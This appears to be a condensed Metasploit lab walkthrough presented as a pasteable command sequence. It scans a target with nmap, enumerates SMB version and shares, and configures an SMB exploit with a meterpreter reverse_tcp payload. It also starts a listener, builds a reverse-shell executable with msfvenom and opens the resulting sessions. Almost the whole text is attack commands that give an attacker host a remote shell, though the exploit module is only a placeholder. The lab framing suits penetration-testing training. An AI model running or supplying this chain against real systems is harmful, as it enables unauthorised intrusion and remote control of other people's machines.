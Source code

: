 
# Full pasteable lab scenario — end to end (condensed)

```text
# Start DB & workspace
sudo systemctl start postgresql
sudo msfdb init
msfconsole
workspace -a lab-scan
workspace lab-scan

# Fast port/service discovery, store in DB
db_nmap -sS -p 21,22,80,139,445,3306,3389 --open 10.10.10.5

# Check results
hosts
services

# SMB version + shares
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.10.10.5
run

use auxiliary/scanner/smb/smb_enumshares
set RHOSTS 10.10.10.5
run

# Find exploit
search type:exploit smb  # then pick a matched exploit

# Configure exploit
use exploit/windows/smb/EXAMPLE_MODULE
set RHOSTS 10.10.10.5
set RPORT 445
set PAYLOAD windows/x64/meterpreter_reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444

# Start handler (in separate msfconsole tab/session or as background job)
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter_reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
exploit -j

# Generate payload (attacker)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o /tmp/rev_shell.exe

# Deliver payload in lab (method depends on allowed vector)
# After execution on target, monitor handler and interact:
sessions -l
sessions -i 1
```

---